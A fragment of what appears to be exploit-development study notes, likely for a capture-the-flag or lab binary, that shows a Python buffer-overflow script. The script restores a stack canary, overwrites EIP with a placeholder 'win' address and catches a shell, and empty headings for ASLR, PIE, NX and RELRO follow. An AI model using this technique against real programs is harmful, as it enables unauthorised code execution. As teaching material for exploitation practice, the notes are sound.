 ```python
'''

## SOMEWHERE HERE WE WANT TO OVERWRITE THE STACK COOKIE WITH THE RIGHT VALUE
## SINCE OUR PADDING WOULD DAMAGE IT ON THE WAY PAST OTHERWISE
padding = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaa'

# Overwrite ECX with the cookie on the way past, zooom woosh
cooked = canary_value 
pad_to_eip = b'a' * 8

## Hard code win from disassembly
eip_to_win = p32(<win_addr>)

payload = padding + cooked + pad_to_eip + eip_to_win + b'\x90'

proc.sendline(payload)
print(proc.recvuntil('quit\n'))

# Trigger our ret call
proc.sendline('d')

# Catch shell
proc.interactive()

```

### ASLR

+ ~

### PIE

+ ~

### NX

+ ~

### RELRO

+ ~